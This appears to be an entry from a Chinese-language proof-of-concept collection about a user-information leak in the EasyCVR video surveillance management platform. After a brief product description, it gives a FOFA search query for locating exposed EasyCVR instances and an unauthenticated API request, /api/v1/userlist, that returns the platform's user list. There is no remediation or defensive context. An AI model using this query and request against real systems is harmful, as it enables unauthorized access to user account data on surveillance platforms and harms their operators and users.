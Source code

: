 ## EasyCVR 视频管理平台存在用户信息泄露
EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件。它具备多项功能，包括信息资源管理、设备管理、用户管理、网络管理和安全管理。该平台能够实现监控中心对所有视频监控图像的集中管理，并支持多个品牌设备的联网，确保联网视频监控传输质量，并提供资源统一检索和数据共享的功能。

## fofa
```
title="EasyCVR"
```

## poc
```
/api/v1/userlist?pageindex=0&pagesize=10

```
![image](../../images/cc8c8dd3-bd7e-49a9-b22f-a6a97215cf6a.png)
